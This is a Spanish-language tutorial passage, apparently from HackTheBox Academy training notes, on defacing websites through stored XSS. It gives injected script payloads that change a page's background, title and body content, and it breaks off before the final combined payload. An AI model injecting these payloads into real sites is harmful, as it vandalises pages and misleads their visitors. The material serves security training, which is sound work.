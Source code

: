 ## Defacing (Stored XSS)

### Elementos

Podemos utilizar código JavaScript inyectado (a través de XSS) para que una página web tenga el aspecto que queramos. Generalmente se utilizan tres elementos HTML para cambiar el aspecto principal:

- Color de fondo `document.body.style.background`
- Fondo `document.body.background`
- Título de la página `document.title`
- Texto de la página `DOM.innerHTML`

Podemos utilizar dos o tres de estos elementos para escribir un mensaje básico a la página web e incluso eliminar el elemento vulnerable, de forma que sea más difícil resetear rápidamente la página web, como veremos a continuación.

#### Cambio de fondo

Para cambiar el fondo de una página web, podemos elegir un color determinado o utilizar una imagen. Podemos usar cualquier otro valor hexadecimal o podemos usar un color con nombre como `= "black"`.

```html
<script>document.body.style.background = "#141d2b"</script>
```

Otra opción sería establecer una imagen de fondo:

```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

#### Cambiar el título

```html
<script>document.title = 'HackTheBox Academy'</script>
```

#### Cambiar el texto

Podemos utilizar varias funciones de JavaScript para hacerlo. Por ejemplo, podemos cambiar el texto de un elemento HTML/DOM específico utilizando la función `innerHTML`:
```javascript
document.getElementById("todo").innerHTML = "New Text"
```
También podemos utilizar funciones jQuery para lograr lo mismo de manera más eficiente o para cambiar el texto de múltiples elementos en una línea (para hacerlo, la biblioteca `jQuery`debe haber sido importada dentro del código fuente de la página):
```javascript
$("#todo").html('New Text');
```
 Sin embargo, como los grupos de hackers suelen dejar un mensaje simple en la página web y no dejar nada más en ella, cambiaremos todo el código HTML del main `body`, usando `innerHTML`, de la siguiente manera:
 ```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```
------
Tomaremos prestado el código HTML:
```html
<center>
    <h1 style="color: white">Cyber Security Training</h1>
    <p style="color: white">by 
        <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy">
    </p>
</center>
```
Minimizaremos el código HTML en una sola línea y lo agregaremos a nuestra carga útil XSS anterior:
```html
```
